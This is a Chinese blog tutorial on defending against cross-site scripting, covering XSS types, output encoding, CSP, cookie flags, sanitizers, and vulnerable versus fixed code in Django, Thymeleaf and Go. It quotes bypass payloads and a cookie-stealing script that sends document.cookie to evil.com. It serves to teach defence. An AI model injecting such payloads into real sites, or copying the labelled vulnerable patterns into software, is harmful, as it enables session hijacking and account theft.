

网络安全指北之防止 XSS 的典型套路
Posted on 六 28 2月 2026 in Tech
| Abstract | XSS：防止 XSS 的典型套路 |
|---|---|
| Authors | Walter Fan |
| Category | tech note |
| Status | v1.0 |
| Updated | 2026-02-28 |
| License | CC-BY-NC-ND 4.0 |
防止 XSS 的典型套路
写了这么多年后端，我对 XSS 的态度经历过三个阶段：一开始觉得 "那是前端的事"，后来踩了坑才知道后端吐出去的数据不转义照样能被注入，再后来明白了——XSS 不是前端问题也不是后端问题，是 "输出到浏览器时没做上下文转义" 的问题。
好消息是：和 BAC 那种 "每个接口每条数据都要单独配锁" 的问题不同，XSS 的防御相对有套路，做好几件事就能大幅避免。坏消息是：这几件事里漏掉任何一件，攻击者就有机可乘。
What（XSS 是什么）
XSS（Cross-Site Scripting，跨站脚本攻击）是指攻击者把恶意代码 "混" 进网页中，当其他用户打开这个网页时，代码在他们的浏览器里偷偷运行。
打个比方：你去餐厅点了一碗面，厨师在做面的时候不小心把一包老鼠药也拌了进去——面看起来还是正常的面，但吃下去就出事了。XSS 就是 "恶意代码被拌进了正常网页里"。
一个最简单的例子：用户在评论框输入 <script>alert('hacked')</script>，如果服务端原样存储、前端原样渲染，这段代码就会在每个打开该页面的用户浏览器里执行。
小白提示： - 脚本（Script）：就是一段能被浏览器自动执行的代码，通常是 JavaScript。 - OWASP：一个专门研究 Web 应用安全的国际开源社区，每隔几年发布 "Top 10" 最常见安全风险清单。 - 注入（Injection）：把不该有的东西混进了正常的数据流里，让系统把它当成合法指令执行。
XSS 在 OWASP Top 10:2025 中归入 A05 Injection。
三种类型
| 类型 | 生活类比 | 触发方式 | 持久性 | 典型场景 |
|---|---|---|---|---|
| Stored XSS（存储型） | 有人在公告栏贴了张带毒的传单，每个路过的人都会中招 | 恶意代码存进数据库，页面加载时执行 | 持久，影响所有访问者 | 评论、帖子、用户昵称、个人简介 |
| Reflected XSS（反射型） | 有人给你发了个带毒的链接，你点了就中招 | 恶意代码藏在 URL 参数里，服务端原样回显 | 一次性，需诱导点击 | 搜索结果页、错误页回显用户输入 |
| DOM-based XSS（DOM 型） | 网页自己把门口捡到的东西往嘴里塞 | 前端 JS 直接读取 URL 中的数据并写入页面 | 一次性，纯前端触发 | document.innerHTML = location.hash 等 |
三种类型的根因一样：不该被执行的数据，被当成代码执行了。就像你写了张纸条 "帮我买咖啡"，结果收银系统把它当成了收银指令。
Why（为什么 XSS 这么常见）
XSS 常年在 OWASP Top 10 里占有一席之地，原因不复杂：
- Web 应用到处都在拼 HTML：后端模板、前端组件、富文本编辑器、邮件模板……凡是 "把用户输入拼进网页" 的地方，漏一个就是一个 XSS。就像一家餐厅有 50 道菜，每道菜的食材都可能被下毒——你得 每道菜 都检查。
- 浏览器分不清 "正常代码" 和 "注入的代码"：XSS 的恶意代码是从目标网站的页面里执行的，浏览器认为它是合法的，所以能拿到 Cookie（登录凭证）、Session（会话信息）等所有数据——就像小偷穿着你家保安的制服进门，门禁系统不会拦。
- 攻击面大，影响面广：一个 Stored XSS 可以影响该页面的所有访问者；攻击者可以冒充用户、诱导输入密码，甚至像蠕虫一样自动扩散。
为什么 "只做输入校验" 不够
很多人的第一反应是 "过滤掉 <script> 标签不就行了"。然而 XSS 的注入方式远不止 <script>，随便举几个：
<img src=x onerror=alert(1)>—— 图片加载失败时执行代码<a href="javascript:alert(1)">click</a>—— 点击链接时执行<div style="background:url(javascript:alert(1))">—— 通过 CSS 注入" onfocus="alert(1)" autofocus="—— 注入到 HTML 属性里
这就像你说 "禁止带刀进入"，结果人家带了把剪刀、一根削尖的筷子、一个碎玻璃瓶……黑名单永远列不完。
正确的思路是输出转义——不管输入是什么，输出到网页的时候把所有可能被浏览器当成代码执行的字符都 "无害化" 处理。下一节详细讲。
How（XSS 是怎么发生的）
用一个故事来说明 Stored XSS 是怎么发生的：
攻击者写了条 "有毒评论" → 网站原样存进数据库 → 其他用户打开页面 → 网站把 "有毒评论" 拼进网页 → 浏览器执行了里面的恶意代码
具体来说：
- 攻击者在某论坛的评论框里写了一段看起来像代码的内容：
<script>document.location='https://evil.com/steal?c='+document.cookie</script>。 - 网站没有检查，原样存进了数据库——就像餐厅把客人带来的 "调料" 直接倒进了汤里。
- 无辜的用户 B 打开了包含这条评论的页面。
- 网站从数据库取出这条评论，拼进 HTML 网页，没有做任何 "消毒" 处理。
- 用户 B 的浏览器把这段内容当成合法代码执行了——用户 B 的登录凭证（Cookie）被偷偷发到了攻击者的服务器。
结果：攻击者拿到 Cookie，就能冒充用户 B 登录，做任何 B 能做的事情。
XSS 能造成什么危害
- 偷登录凭证（Session Hijacking）：拿到你的 Cookie，就能冒充你登录——就像偷了你的门禁卡。
- 钓鱼/页面篡改：在合法网站上叠一层假的登录框，你以为是在正规网站输密码，其实密码发给了攻击者。
- 键盘记录：注入一段 "偷听" 代码，你在页面上打的每个字都会被记录下来。
- 蠕虫传播：经典的 Samy Worm（2005）就是通过 MySpace 的 Stored XSS 传播的，24 小时内感染上百万用户——每个中招的人的主页都会自动发一条 "Samy is my hero"，然后把蠕虫传给来访者。
- 内网探测：在企业内网应用里注入代码，扫描公司内部有哪些服务和系统。
How to prevent（只要做好这几件事）
XSS 的防御比 BAC 更有 "套路"——做好以下几件事，绝大多数 XSS 可以避免。
1. 输出转义（Output Encoding）—— 最关键的一件事
这是防 XSS 的核心思想，用一句话说就是：不管用户输入了什么，在输出到网页的时候把特殊字符 "翻译" 成无害的形式。
比如用户输入了 <script>，转义后变成 <script>。浏览器会把它显示成文字 "<script>"，而不会把它当代码执行——就像你在信封上写了 "炸弹" 两个字，邮局不会真的以为里面有炸弹，因为它只是文字。
不同的位置需要不同的 "翻译规则"：
| 输出位置 | 做什么 | 举例 |
|---|---|---|
| 网页正文（HTML body） | HTML Entity 编码 | < → <，> → > |
| HTML 属性值 | HTML Attribute 编码 | " → "，' → ' |
| JavaScript 代码中 | JS 编码 | ' → \x27，< → \x3c |
| URL 参数 | URL 编码 | 空格 → %20，< → %3C |
| CSS 样式中 | CSS 编码 | ( → \28 |
关键点：不同位置的编码方式不同，不能混用。就像中文翻译成英文和翻译成日文的规则不同，你不能用英文的翻译规则去翻日文。
2. 使用自动转义的模板引擎
好消息是：你不需要自己手动做转义。现代模板引擎（就是帮你生成网页的工具）默认就帮你转好了，除非你主动说 "这段不要转义"：
- Python：Jinja2 和 Django 模板默认转义。
- Java：Thymeleaf 用
th:text就自动转义（th:utext才是不转义，名字里的u代表 unsafe）。 - Go：
html/template（注意，不是text/template）自动按上下文转义。 - 前端：React 的 JSX 默认转义（
dangerouslySetInnerHTML光看名字就知道危险）；Vue 的{{ }}默认转义（v-html不转义）。
原则：永远用框架的安全默认。什么时候需要关掉转义？几乎不需要。如果真要关，必须有明确理由并让同事 review。
3. Content Security Policy（CSP）
CSP 是浏览器层的安全围栏。你可以通过服务端返回一个特殊的 HTTP 头，告诉浏览器 "只允许运行来自我自己服务器的代码，其他的一律不执行"：
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
小白提示：CSP 就像小区的门禁系统——即使有人翻墙进来了（XSS 注入成功），门禁系统也能限制他的活动范围（不让他执行恶意代码）。
几个关键配置：
- 禁止 "内联脚本"（就是直接写在网页 HTML 里的代码）：script-src 里不加 'unsafe-inline'，这一条就能挡住大部分 XSS。
- 禁止 eval()（一个能把字符串当代码运行的危险函数）。
- 如果业务确实需要在 HTML 里写代码，用 nonce（一次性随机数）或 hash（哈希值）做白名单。
CSP 不能替代输出转义，但能兜底——就像安全气囊不能替代安全带，但关键时刻能救命。
4. Cookie 标 HttpOnly + Secure + SameSite
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
- HttpOnly：JavaScript 读不到这个 Cookie。即使 XSS 成功了，攻击者也偷不走你的登录凭证——就像把保险箱的钥匙焊死在锁里，小偷即使进了房间也拿不走钥匙。
- Secure：Cookie 只在 HTTPS（加密连接）下传输，防止被中间人窃听。
- SameSite：限制其他网站发请求时是否能带上你的 Cookie，防止跨站攻击。
这三个标记不能防 XSS 本身，但能大幅降低 XSS 成功后的危害——就像你家虽然被撬了门，但保险箱打不开，损失就小多了。
5. 输入校验（作为辅助）
输入校验是 "辅助防线"，不是第一道防线（第一道是输出转义）：
- 对格式明确的数据做白名单校验：比如邮箱就只允许邮箱格式，手机号就只允许数字，不在范围内的直接拒绝。
- 对自由文本（如评论内容）不要尝试过滤 HTML 标签——绕过方式太多，不靠谱。在输出时转义才是正解。
- 如果业务必须允许富文本（比如允许用户写加粗、插入链接），那要用专门的 HTML 净化器（sanitizer）——它只保留你允许的标签（如
<b>、<a>），其他统统删掉。常用的有 DOMPurify、Bleach、OWASP Java HTML Sanitizer。
6. 避免危险的 API
- 前端：避免
innerHTML（直接往页面塞 HTML）、document.write()（往页面写内容）、eval()（把字符串当代码执行）、setTimeout(string)（同上）。用textContent（只插入纯文本）或框架自带的数据绑定。 - 后端：避免手动拼 HTML 字符串（比如
"<p>" + userInput + "</p>"），老老实实用模板引擎。
Example（Java / Go / Python 正反示例）
小白提示：即使你不熟悉以下某种语言，只需关注反例和正例的区别。反例的核心问题都一样——把用户输入原样塞进了网页；正例的核心思路也一样——让框架自动转义，或者先 "消毒" 再输出。
Python（Django）
反例：用 mark_safe（告诉 Django "这段内容是安全的，不用转义"）把用户输入直接塞进 HTML
from django.utils.safestring import mark_safe
def profile(request, user_id):
user = User.objects.get(id=user_id)
# BAD: 用户昵称可能包含 <script>，mark_safe 跳过转义
bio_html = mark_safe(f"<p>{user.bio}</p>")
return render(request, "profile.html", {"bio": bio_html})
正例：让 Django 模板自动转义
def profile(request, user_id):
user = User.objects.get(id=user_id)
return render(request, "profile.html", {"bio": user.bio})
模板里直接用 {{ bio }}，Django 默认会自动转义。如果用户输入了 <script>alert(1)</script>，页面上显示的就是这段文字本身，而不会被执行。需要富文本时，先用 Bleach "消毒"，再用 mark_safe。
Java（Spring Boot + Thymeleaf）
反例：用 th:utext（u = unsafe，不安全）输出未经处理的用户输入
<!-- BAD: th:utext 不转义，用户输入的 HTML/JS 原样渲染 -->
<p th:utext="${user.bio}"></p>
正例：用 th:text（text = 安全文本）自动转义
<!-- GOOD: th:text 自动转义，恶意代码变成无害文字 -->
<p th:text="${user.bio}"></p>
如果业务确实需要允许部分 HTML（比如让用户加粗文字），先用 OWASP Java HTML Sanitizer 把危险标签去掉，再用 th:utext 输出：
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;
PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.LINKS);
String safeBio = policy.sanitize(user.getBio());
model.addAttribute("bio", safeBio);
Go（html/template）
反例：用 text/template 渲染 HTML（这个包是给纯文本用的，不会做任何转义）
import "text/template"
// BAD: text/template 不做任何转义，恶意代码直接输出
tmpl := template.Must(template.New("page").Parse("<p>{{.Bio}}</p>"))
tmpl.Execute(w, user)
正例：用 html/template（多了个 html/ 前缀，就自动帮你转义了）
import "html/template"
// GOOD: html/template 自动转义，安全！
tmpl := template.Must(template.New("page").Parse("<p>{{.Bio}}</p>"))
tmpl.Execute(w, user)
注意看：两段代码的区别只有 import 的包名不同（text/template vs html/template）。Go 的 html/template 会根据上下文自动做 HTML/JS/URL/CSS 编码，在标准库层面就堵住了大部分 XSS。
框架与最佳实践（Java / Go / Python）
小白提示：下面的表格不用全记，核心就一句话——你用的语言/框架大概率已经有现成的安全工具，用它就好，别自己从头写。
Python
| 工具 | 说明 |
|---|---|
| Django 模板 | 默认 autoescape，{{ var }} 自动转义；{% autoescape off %} 和 |safe 是危险操作 |
| Jinja2 | autoescape=True 默认开启（Flask 也默认开启）；|safe 和 Markup() 跳过转义 |
| Bleach | Mozilla 出品的 HTML 白名单 sanitizer，适合允许部分 HTML 标签的场景 |
| DOMPurify（前端） | 浏览器端 HTML sanitizer，配合后端使用做双重保险 |
Java
| 工具 | 说明 |
|---|---|
| Thymeleaf | th:text 默认转义；th:utext 不转义 |
| Spring Security | 默认添加 X-XSS-Protection header；可配置 CSP header |
| OWASP Java HTML Sanitizer | 白名单策略 sanitize HTML，API 简洁，适合富文本场景 |
| ESAPI | OWASP 出品的编码库，提供 HTML/JS/URL/CSS 各上下文的 Encoder |
Go
| 工具 | 说明 |
|---|---|
| html/template | 标准库，自动按上下文转义（HTML/JS/URL/CSS），用这个不用 text/template |
| bluemonday | Go 的 HTML sanitizer（类似 Bleach），按白名单策略过滤 HTML 标签和属性 |
| CSP middleware | Gin/Echo 等框架可用 middleware 统一设置 CSP header |
跨语言通用原则
- 用框架的安全默认：现代模板引擎默认帮你转义，别手贱关掉它。
- 区分输出位置：输出到网页正文、HTML 属性、JS、URL、CSS 的编码方式各不相同，不能混用。
- CSP 兜底：设置严格的 CSP，禁止内联脚本。这是安全气囊，转义是安全带，两个都要系。
- Cookie 加固：HttpOnly + Secure + SameSite 三件套，降低被偷后的损失。
- 富文本走白名单 sanitizer：别自己用正则过滤 HTML 标签，用专业的净化库。
- code review 关注 "不转义" 标记：代码里出现
mark_safe、|safe、th:utext、v-html、dangerouslySetInnerHTML、template.HTML时，必须确认数据来源是安全的。这些就是 "安全门上的手动开关"，开之前想清楚。
Checklist（XSS 防御自检）
- [ ] 模板引擎的自动转义是否开启，且没有被全局关闭？
- [ ] 所有 "不转义" 标记（
|safe、th:utext、v-html、dangerouslySetInnerHTML等）是否都有明确理由且数据经过 sanitize？ - [ ] 后端是否避免手动拼 HTML 字符串，而是用模板引擎？
- [ ] 前端是否避免
innerHTML、document.write()、eval()等危险 API？ - [ ] 是否设置了严格的 CSP，禁止
unsafe-inline和unsafe-eval？ - [ ] Session Cookie 是否标了 HttpOnly + Secure + SameSite？
- [ ] 如果业务允许富文本，是否用白名单 HTML sanitizer（Bleach / DOMPurify / OWASP Java HTML Sanitizer / bluemonday）？
- [ ] 输出到 JS/URL/CSS 上下文时，是否用了对应上下文的编码而不是只做 HTML 编码？
- [ ] 单测/集成测里有没有包含 XSS payload 的用例（如
<script>alert(1)</script>作为输入，验证输出被转义）？
Summary
- XSS 是什么：用户输入的数据被当成代码在浏览器里执行了——就像有人在你的菜里下了毒，而厨师没有检查食材。
- 三种类型：存储型（毒留在数据库里，人人中招）、反射型（毒在链接里，点了才中）、DOM 型（前端自己把毒吃了）。根因一样。
- 为什么常见：Web 应用到处在拼 HTML，漏一个输出点就是一个 XSS；光靠 "过滤坏词" 防不住，绕过方式太多。
- 怎么防：核心是输出转义——把特殊字符 "翻译" 成无害文字；辅以 CSP 兜底、Cookie 加固、白名单净化器。
- 框架选择：Python 用 Django/Jinja2 自动转义 + Bleach；Java 用 Thymeleaf
th:text+ OWASP HTML Sanitizer；Go 用html/template+ bluemonday。别关掉框架的安全默认。 - 六件事：模板自动转义别关、"不转义" 标记必须 review、CSP 禁内联脚本、Cookie 加 HttpOnly、富文本走净化器、危险 API 别用。
一句话：XSS 的防御不在于把坏东西挡在门外，而在于出锅之前给每道菜都做 "食品安全检查"——按上下文转义，就是最靠谱的安全检查。
References
- OWASP Top 10:2025 – A05 Injection
- OWASP XSS Prevention Cheat Sheet
- OWASP DOM-based XSS Prevention
- Content Security Policy (MDN)
- DOMPurify
- Bleach (Python)
- OWASP Java HTML Sanitizer
- bluemonday (Go)
- Go html/template
思维导图
@startmindmap
<style>
mindmapDiagram {
node { BackgroundColor #FAFAFA }
:depth(0) { BackgroundColor #FFD700 }
:depth(1) { BackgroundColor #E3F2FD }
:depth(2) { BackgroundColor #F5F5F5 }
}
</style>
title 防止 XSS 的典型套路
* XSS 防御
** What（XSS 是什么）
*** 不可信数据被当成代码执行
*** Stored XSS（存储型）
*** Reflected XSS（反射型）
*** DOM-based XSS（DOM 型）
** Why（为什么常见）
*** 到处在拼 HTML
*** 浏览器不防 "自注入"
*** 攻击面大，影响面广
*** 黑名单过滤容易绕过
** How（怎么发生）
*** 输入 → 存储 → 渲染 → 执行
*** Session Hijacking
*** 钓鱼 / UI 篡改
*** 键盘记录 / 蠕虫
** 防御套路
*** 1. 输出转义（最关键）
**** HTML body → Entity 编码
**** HTML 属性 → Attribute 编码
**** JavaScript → JS 编码
**** URL 参数 → URL 编码
**** CSS → CSS 编码
*** 2. 自动转义模板引擎
**** Python: Django / Jinja2
**** Java: Thymeleaf th:text
**** Go: html/template
**** 前端: React JSX / Vue {{ }}
*** 3. CSP 兜底
**** 禁 unsafe-inline
**** 禁 unsafe-eval
**** nonce / hash 白名单
*** 4. Cookie 加固
**** HttpOnly
**** Secure
**** SameSite
*** 5. 输入校验（辅助）
**** 结构化数据白名单
**** 富文本走 sanitizer
***** DOMPurify
***** Bleach
***** OWASP HTML Sanitizer
***** bluemonday
*** 6. 避免危险 API
**** innerHTML / document.write
**** eval() / setTimeout(string)
**** 手动拼 HTML 字符串
** 框架选择
*** Python: Django + Bleach
*** Java: Thymeleaf + OWASP Sanitizer
*** Go: html/template + bluemonday
*** 跨语言: Casbin / OPA（策略引擎）
** 自检清单
*** 模板自动转义是否开启？
*** "不转义" 标记是否 review？
*** CSP 是否禁 inline？
*** Cookie 是否 HttpOnly？
*** 富文本是否走 sanitizer？
*** 测试是否包含 XSS payload？
@endmindmap

本作品采用知识共享署名-非商业性使用-禁止演绎 4.0 国际许可协议进行许可。